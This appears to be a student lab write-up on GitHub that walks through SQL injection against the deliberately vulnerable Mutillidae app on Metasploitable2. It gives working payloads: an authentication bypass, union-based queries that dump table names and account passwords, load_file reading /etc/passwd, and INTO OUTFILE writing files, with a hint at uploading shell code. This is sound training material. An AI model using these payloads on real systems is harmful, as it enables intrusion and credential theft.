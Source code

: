 # sqlinjection
Exploiting SQL Injection vulnerability
# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2
## DESIGN STEPS:
### Step 1:
Install kali linux either in partition or virtual box or in live mode
### Step 2:
Investigate on the various categories of tools as follows:
### Step 3:
Open terminal and try execute some kali linux commands
## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2 

![326167489-91d38cf4-7261-4878-9c71-1724992006ed](https://github.com/Naveenaa28/sqlinjection/assets/131433133/e5b31806-4c05-428c-b1c3-fa12c241d7ed)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 325657622-28300288-17b2-4d70-b1d6-3ee0a018feac
![326167524-baea06ec-f598-4e58-8971-9075a635be44](https://github.com/Naveenaa28/sqlinjection/assets/131433133/0758f1dc-f1fd-4555-a65d-dbff167059c7)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![326167543-7eb6f9e6-bf60-4bcd-880c-b0ee52169c99](https://github.com/Naveenaa28/sqlinjection/assets/131433133/216f5fc9-df4d-4524-8d86-c1392d02eca7)
Click on the menu Login/Register and register for an account

![326167552-5e50537d-a76a-4c01-abce-7b748fc8f6ca](https://github.com/Naveenaa28/sqlinjection/assets/131433133/667ef8f7-a266-49b9-a0b8-ba441caeaa32)
Click on the link “Please register here”

![326167640-4c275f89-7aed-4a8d-a982-f06197f2ba5d](https://github.com/Naveenaa28/sqlinjection/assets/131433133/c47b859f-c18a-4a42-8b17-0d94500800d3)
Click on “Create Account” to display the following page

![326167656-090badfa-881b-4c42-b4e5-4e0c037aedd1-1](https://github.com/Naveenaa28/sqlinjection/assets/131433133/82380fb6-c5e0-4285-a25e-e4c35b91ba02)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![326167675-e9bd9257-5df2-4d1b-9448-d29e0c6a413c](https://github.com/Naveenaa28/sqlinjection/assets/131433133/958f2006-777f-4b77-9599-ef3a8427a553)
Click “Login”. The logged in page will show as below: 

![326167689-a0b9be05-0d47-4e5f-a85e-171803756883](https://github.com/Naveenaa28/sqlinjection/assets/131433133/17442e8a-70ba-4bb4-8c9e-24d05f5c4533)
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![326167705-a4b597c5-733a-4a79-be07-08db50834432](https://github.com/Naveenaa28/sqlinjection/assets/131433133/241628d1-cd8c-4523-a192-01c8844a164e)
Click the login button and you will see it enter into the administrator page. 325658372-b7b5d131-fcc9-4084-8173-4cb7fe583f0b

![326167715-c53ed745-89e2-4ea2-bc4f-b99bcff1a7cf](https://github.com/Naveenaa28/sqlinjection/assets/131433133/7e426ed0-9caa-4be5-a31c-d92c8f3788d3)
### Union-based SQL injection:
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below

![326167742-ed692090-a94d-4649-91f7-832557d6c24a](https://github.com/Naveenaa28/sqlinjection/assets/131433133/90507cce-29fb-457f-9a3d-9785c2caa435)

![326167746-f4a9d297-0723-48d3-85ef-29ed77f38824](https://github.com/Naveenaa28/sqlinjection/assets/131433133/27d41dc9-a01b-4180-80a3-94062401efe3)

![326167754-69e12e90-e470-46e2-b5f7-0023c4ad590d](https://github.com/Naveenaa28/sqlinjection/assets/131433133/8ed9379b-6dba-4880-b3be-e2e036a68891)


![326167767-b6ccf61d-4fa8-4b31-b0b7-8305c7599ef7](https://github.com/Naveenaa28/sqlinjection/assets/131433133/09e85649-14f7-40c1-992f-68b7a1f64289)

![326167772-01523eee-2a66-4776-8cb2-366f1d77fafb](https://github.com/Naveenaa28/sqlinjection/assets/131433133/4ee2e65d-e57b-405b-ad8e-5630b1338620)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.

![326167782-cd807a3d-4a16-47a0-9bc0-95578dad990c](https://github.com/Naveenaa28/sqlinjection/assets/131433133/db45239d-dadf-44b9-8be9-d87e5b183d61)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6. The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![326167798-af01eef3-148b-4a93-94e7-94b815bd7340](https://github.com/Naveenaa28/sqlinjection/assets/131433133/d0673583-282b-4296-9725-fc3239aa9f39)
After adding the order by 6 into the existing url , the following error statement will be obtained: 325659955-4c68e9ec-cb59-44dc-8a1f-3e56b3af0041

![326167807-92c6eaae-156f-4d7b-adf8-268c47e5d09f](https://github.com/Naveenaa28/sqlinjection/assets/131433133/3451293b-24ed-4352-928b-6bdadd3607f0)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![326167825-5e28b185-ba4f-4ca6-8d3e-c5eafa1105a7](https://github.com/Naveenaa28/sqlinjection/assets/131433133/75ae6e7d-53f1-4dd0-94f8-87200e921100)
As it is having 5 columns the query worked fine and it provides the correct result

![326167844-1c131d98-1b5f-4221-9e19-c567aab00d8d](https://github.com/Naveenaa28/sqlinjection/assets/131433133/57374a77-b42f-40fb-83f4-f26810998631)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5) 

![326167852-d6df498b-cd3d-4b30-b7f4-5eae6f23467b](https://github.com/Naveenaa28/sqlinjection/assets/131433133/421b150c-7eca-4679-93a9-10d1ae6a9def)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![326167909-23e4c2ee-c204-4658-9c78-2c7b082584be](https://github.com/Naveenaa28/sqlinjection/assets/131433133/f4c9dcdd-dd6e-441f-865c-d10a8f357518)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![326167946-70faccc5-468e-4ea6-8124-fda9ceace43a](https://github.com/Naveenaa28/sqlinjection/assets/131433133/35d3d60d-493b-4b1a-93f2-961f05380f8c)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![326167967-6decfa12-727f-4450-b3dd-1f379b8c7b3b](https://github.com/Naveenaa28/sqlinjection/assets/131433133/29a94398-e2be-4f7b-878e-3ffb7c3189c7)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![326167986-8413565a-6e8d-4682-a66f-71d7215adf58](https://github.com/Naveenaa28/sqlinjection/assets/131433133/0998fb64-e2b1-459c-bdf7-d6f41830dc93)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![326168007-876c9aed-a000-4bf0-afe4-20b9ef109227](https://github.com/Naveenaa28/sqlinjection/assets/131433133/b19dcdb9-36a6-4901-836a-096d97a9b1d6)
### Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![326168036-f6ac4e0c-3bd2-4331-9c17-ed2df2c37732](https://github.com/Naveenaa28/sqlinjection/assets/131433133/af0567cf-32f0-4fd8-9db7-aa6936fb578d)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
